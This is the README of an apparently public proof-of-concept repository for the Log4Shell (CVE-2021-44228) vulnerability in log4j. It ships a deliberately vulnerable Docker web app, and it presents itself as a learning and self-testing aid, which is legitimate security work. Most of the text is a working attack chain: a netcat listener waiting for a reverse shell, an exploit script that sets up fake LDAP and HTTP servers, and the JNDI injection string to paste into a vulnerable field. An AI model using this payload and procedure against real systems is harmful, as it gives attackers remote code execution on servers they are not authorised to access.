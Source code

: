 # log4j-shell-poc

A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. <br><br>
Recently there was a new vulnerability in log4j, a java logging library that is very widely used in the likes of elasticsearch, minecraft and numerous others.

In this repository we have made and example vulnerable application and proof-of-concept (POC) exploit of it.

#### Install Requirements:
```bash
pip install -r requirements.txt
```

#### Usage:
* Clone this repo
```sh
git clone https://github.com/prasadashu/log4j-shell-poc.git
```

* Change directory to the cloned directory
```sh
cd log4j-shell-poc
```

* Install the requirements
```sh
pip install -r requirements.txt
```

* Install Java 8 JDK
```sh
apt install -y openjdk-8-jdk
```

* Copy the JDK to the current working directory
```sh
cp -r /usr/lib/jvm/java-8-openjdk-amd64 ./
```

* Start a netcat listener to accept reverse shell connection.<br>
```sh
nc -lvnp 9001
```

* Start the vulnerable application
```sh
1: docker build -t log4j-vulnerable-application .
2: docker run --network host log4j-vulnerable-application
```

* Launch the exploit.<br>
**Note:** For this to work, the extracted java archive has to be named: `java-8-openjdk-amd64`, and be in the same directory.
```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Forked from Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

<br>


Our vulnerable application
--------------------------

A Dockerfile has been added with the vulnerable webapp.

We can run the application using the following steps:

```sh
1: docker build -t log4j-vulnerable-application .
2: docker run --network host log4j-vulnerable-application
```
Once it is running, you can access it on localhost:8080

<br>

Getting the Java version.
--------------------------------------

We can install the required Java version using the below command.
```sh
apt install -y openjdk-8-jdk
```

Java versision installed will be
```sh
openjdk version "1.8.0_342"
OpenJDK Runtime Environment (build 1.8.0_342-8u342-b07-0ubuntu1~20.04-b07)
OpenJDK 64-Bit Server VM (build 25.342-b07, mixed mode)
```

Disclaimer
----------
This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this awesome vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: [https://log4shell.tools/](https://log4shell.tools/)).

Our team will not aid, or endorse any use of this exploit for malicious activity, thus if you ask for help you may be required to provide us with proof that you either own the target service or you have permissions to pentest on it.


